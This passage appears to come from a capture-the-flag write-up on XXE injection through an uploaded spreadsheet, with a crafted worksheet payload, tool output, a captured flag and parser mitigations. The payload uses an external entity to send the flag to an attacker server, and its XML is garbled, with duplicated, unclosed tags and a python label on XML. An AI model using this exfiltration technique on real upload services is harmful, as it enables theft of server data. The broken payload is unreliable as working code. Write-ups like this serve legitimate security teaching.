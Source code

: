 ```python
]>
<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
  <dimension ref="A1:E20"/>
<worksheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
  <dimension ref="A1:E20"/>
  <sheetData>
    <row r="1"><c r="A1" t="inlineStr"><is><t>&send;</t></is></c></row>
  <sheetData>
    <row r="1"><c r="A1" t="inlineStr"><is><t>&send;</t></is></c></row>
    <row r="1"><c r="A1" t="inlineStr"><is><t>&send;</t></is></c></row>
  </sheetData>
</worksheet>
^Z

[+] Wrote: demo.xxe.xlsx
[+] Replaced: xl/worksheets/sheet1.xml
```

- Upload it and check if there has been any connection on your attacker server and if the flag has been sent to you

---

## 7) Results (Template)

**Server callbacks:**

![Pasted image 20250918182929.jpg](attachments/Pasted_image_20250918182929.jpg)

**Flag:** `flag{this_is_what_you_gonna_be_doing_when_you_get_a_J_O_B}`  

---

## 8) Mitigation for XXE

- **Disable DTD & external entities & dangerous config:**
    
    ```python
    etree.XMLParser(resolve_entities=False, load_dtd=False, no_network=True)
    ```
- Treat uploaded Office docs as untrusted; don’t feed attacker XML into XXE-capable parsers.    

